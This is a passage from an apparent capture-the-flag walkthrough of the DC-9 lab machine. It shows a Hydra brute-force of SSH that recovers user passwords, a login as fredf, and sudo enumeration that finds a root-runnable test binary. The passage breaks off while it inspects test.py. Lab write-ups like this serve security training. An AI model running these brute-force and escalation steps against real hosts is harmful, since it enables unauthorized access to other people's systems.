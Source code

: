 ### 9. Attack SSH again and log in
Take these new passwords and go back over the user list with ssh.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ hydra -L users.txt -P passwords.txt -e nsr -s 22 ssh://192.168.34.140 -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-03 03:18:09
[DATA] max 4 tasks per 1 server, overall 4 tasks, 153 login tries (l:17/p:9), ~39 tries per task
[DATA] attacking ssh://192.168.34.140:22/
[22][ssh] host: 192.168.34.140   login: fredf   password: B4-Tru3-001
[22][ssh] host: 192.168.34.140   login: joeyt   password: Passw0rd
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 53 to do in 00:01h, 4 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-03 03:19:50
```
Another user credential set is recovered: `fredf:B4-Tru3-001`. Log into this user over SSH.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ ssh fredf@192.168.34.140      
fredf@192.168.34.140's password: 
Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
fredf@dc-9:~$ id
uid=1003(fredf) gid=1003(fredf) groups=1003(fredf)
```

### 10. Enumerate from user
Turns out fredf can run a file as root.
```bash
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
fredf@dc-9:~$ ls -l /opt/devstuff/dist/test/test
-rwxr-xr-x 1 root root 1212968 Dec 29  2019 /opt/devstuff/dist/test/test
fredf@dc-9:~$ /opt/devstuff/dist/test/test
Usage: python test.py read append
```

Interestingly the usage indicates a "test.py" file should be run with Python..? Looking around, there is a test.py in devstuff/.
```bash
fredf@dc-9:/opt/devstuff$ ls
build  dist  __pycache__  test.py  test.spec
fredf@dc-9:/opt/devstuff$ cat test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)
```